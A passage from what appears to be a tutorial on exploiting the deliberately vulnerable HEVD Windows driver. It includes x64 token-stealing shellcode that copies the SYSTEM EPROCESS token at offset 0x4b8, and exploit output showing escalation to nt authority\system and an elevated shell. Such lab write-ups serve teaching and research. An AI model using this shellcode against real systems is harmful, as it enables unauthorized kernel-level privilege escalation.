 The `kernel_shellcode_find_module_func` function is fairly long so it's omitted here for brevity, and will be included in the full exploit code below.
All it does is traverse the export directory of the given module looking for a given symbol.

> The portability of this method is debatable.
Although it's not relying on hard-coded offsets, we have no guarantee that `DriverSection` points to an instance of `_KLDR_DATA_TABLE_ENTRY` (since this isn't stated anywhere on [the documentation](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_driver_object)).
Besides, the `_KLDR_DATA_TABLE_ENTRY` is also not documented and may vary accross versions.
However, due to the simplicity of the `_KLDR_DATA_TABLE_ENTRY` structure (as opposed to `EPROCESS`), the offsets we are relying on with this method are less likely to vary over time.

Now that we have both the system and current processes, we're ready to steal the token.
There's no getting around hard-coded offsets now, as we need to modify a member of the `EPROCESS` instance (if portability was a concern, we could implement a table mapping OS version numbers to offsets instead of hard-coding it in the code).

Let's look at the definition of this structure in this OS version:

```
6: kd> dt _EPROCESS
ntdll!_EPROCESS
[...]
   +0x4b8 Token            : _EX_FAST_REF
   +0x4c0 MmReserved       : Uint8B
[...]
```

So the token is stored at offset 0x4b8, and is eight bytes long.
We can simply copy the token from one process to the next within a few instructions:

```Assembly
[...]
	; PEPROCESS for current process is stored in rax since we just called PsGetCurrentProcess

	; Get System PEPROCESS pointer
	mov rcx, [rbp - 18h]
	; Get System PEPROCESS
	mov rcx, [rcx]
	; Get System EPROCESS token
	mov rcx, [rcx + 4b8h]
	; Overload current EPROCESS token
	mov [rax + 4b8h], rcx
[...]
```

By this point, we should have successfully elevated privileges, and after cleanly returning to userspace, our process should have administrator privileges and should be able to spawn an administrator shell.
Let's try running the exploit (after some polishing):

```
Running whoami (should return non-privileged user)...
desktop-kgoa5ue\hevd
Done!
Opening device driver... Done! Device driver handle is 00000000000000D8
Leaking non-paged pool memory address... Done! Non paged pool at FFFFAF85A6903000
Writing 433 bytes of shellcode to non-paged pool... Done!
Triggering overflow and hijacking control flow... Done!
Closing driver handle... Done!
Running whoami (should return system user)...
nt authority\system
Done!
Spawning elevated shell...
Microsoft Windows [Version 10.0.19045.5247]
(c) Microsoft Corporation. All rights reserved.

C:\Users\hevd\source\repos\HEVDExploit\HEVDExploit>whoami
```